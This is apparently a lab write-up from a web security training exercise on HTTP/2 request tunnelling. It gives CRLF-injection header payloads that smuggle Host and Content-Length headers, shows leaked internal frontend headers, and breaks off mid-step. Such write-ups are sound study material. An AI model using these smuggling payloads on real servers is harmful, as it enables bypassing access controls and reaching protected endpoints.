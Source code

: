 ### LAB: Bypassing access controls via HTTP/2 request tunnelling
First test for CRLF. To the request `GET / HTTP/2` add this header:

    Name: foo: bar/r/n
          Host: abc.com/r/n

    Value: x

Notice we successfully inject a `Host` header via the error response. 
Base on this process: ![](image0.png)
To the search request, change the method to `POST` and add this header:

    Name: foo: bar/r/n
          Content-Length: 110/r/n
          /r/n
          search=

    Value: x

Notice in the response we found this 3 hidden headers:

    X-SSL-VERIFIED: 0
    X-SSL-CLIENT-CN: null
    X-FRONTEND-KEY: 4589371175976603

Base on this process: ![](image1.png)
To the `GET / HTTP/2` request, change the method to `HEAD` (to make the frontend read the content with lenght specified by the `Content-Length` response header) and add this header:
